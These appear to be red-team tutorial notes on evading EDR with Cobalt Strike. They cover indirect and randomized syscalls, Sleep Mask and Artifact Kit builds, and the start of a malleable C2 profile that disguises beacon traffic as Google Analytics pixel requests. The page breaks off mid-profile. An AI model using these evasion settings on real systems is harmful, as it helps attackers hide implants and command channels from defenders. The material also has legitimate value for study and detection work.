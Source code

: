 **Syscall Options**
- **direct** ⇒ use the syscall instruction to directly jump to the kernel
- **indirect** ⇒ use the jmp instruction to jump to a syscall instruction in ntdll that jumps to the kernel
	- this preserves the call stack (stealthier)

**Shellcode**
When generating payloads, select System Call

**Sleep Mask**
Build the **Sleep Mask Kit**, specifying the syscalls option
**Note:** The **Mutator Kit** is not compatible with syscalls

**Executable/DLL**
Build the **Arsenal Kit → Artifact Kit**, specifying the syscalls option
- embedded ⇒ direct syscalls
- indirect ⇒ jmp to syscall instruction in corresponding Nt function (indirect)
- indirect_randomized ⇒ jmp to syscall instruction of a random Nt function
	- pro: if EDR checks return address after syscall, it'll think a different syscall was used
	- con: if EDR checks the syscall number *and* return address, it'll notice those don't match and flag as malicious
#### Profile Changes
**Note:** The example below assumes the following. Change this as necessary to match use case.
- data is sent via a cookie instead of in URL
- staged payloads are disabled
- HTTPS cert is in cobaltstrike/localhost.store
- password for the HTTPS cert is pass123

**Recommended Reading**
- [Cobalt Strike and Yara: Can I Have Your Signature](https://www.cobaltstrike.com/blog/cobalt-strike-and-yara-can-i-have-your-signature) → taken down but you can still find it on the [WayBack Machine](https://archive.org/web/)
- [Harnessing the Power of Cobalt Strike for EDR Evasion](https://whiteknightlabs.com/2023/05/23/unleashing-the-unseen-harnessing-the-power-of-cobalt-strike-profiles-for-edr-evasion/)

on attacker (server),
`nano /home/attacker/cobaltstrike/c2-profiles/custom/custom.profile`
```
set tasks_max_size "2097152";
set host_stage "false";
set sleeptime "10000";

http-get {
        set uri "/__utm.gif";
        client {
                parameter "utmac" "UA-2202604-2";
                parameter "utmcn" "1";
                parameter "utmcs" "ISO-8859-1";
                parameter "utmsr" "1280x1024";
                parameter "utmsc" "32-bit";
                parameter "utmul" "en-US";
				
                metadata {
                        netbios;
                        prepend "SESSIONID=";
                        header "Cookie";
                }
        }
		
        server {
                header "Content-Type" "image/gif";
				
                output {
                        # hexdump pixel.gif
                        # 0000000 47 49 46 38 39 61 01 00 01 00 80 00 00 00 00 00
                        # 0000010 ff ff ff 21 f9 04 01 00 00 00 00 2c 00 00 00 00
```